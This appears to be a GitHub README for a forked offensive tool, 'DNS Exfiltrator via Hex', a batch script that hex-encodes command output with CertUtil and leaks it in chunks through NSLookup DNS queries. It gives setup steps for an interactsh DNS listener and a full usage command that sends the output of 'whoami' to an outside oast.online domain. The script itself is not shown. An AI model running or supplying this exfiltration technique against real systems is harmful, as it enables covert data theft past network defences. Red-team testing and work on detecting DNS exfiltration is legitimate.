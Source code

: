 # DNS Exfiltrator via Hex

This is a fork from [Ivan Šincek](https://github.com/ivan-sincek/). I modified the script to work with Hex encoding instead of Base64. The first parameter, the command, doesn't need to be encoded.

Exfiltrate data with DNS queries in Hex. Based on CertUtil and NSLookup.

Command output will be encoded in Hex with CertUtil and exfiltrated in chunks up to 63 characters per query with NSLookup.

## How to Run

Download, unpack, give necessary permissions, and run the latest [interact.sh](https://github.com/projectdiscovery/interactsh/releases) client.

```fundamental
chmod +x interactsh-client

./interactsh-client -dns-only -json -o interactsh.json
```

Open the Command Prompt where you saved the batch script and run the following command:

```fundamental
dns-exfil-hex.bat whoami xyz.oast.online
```
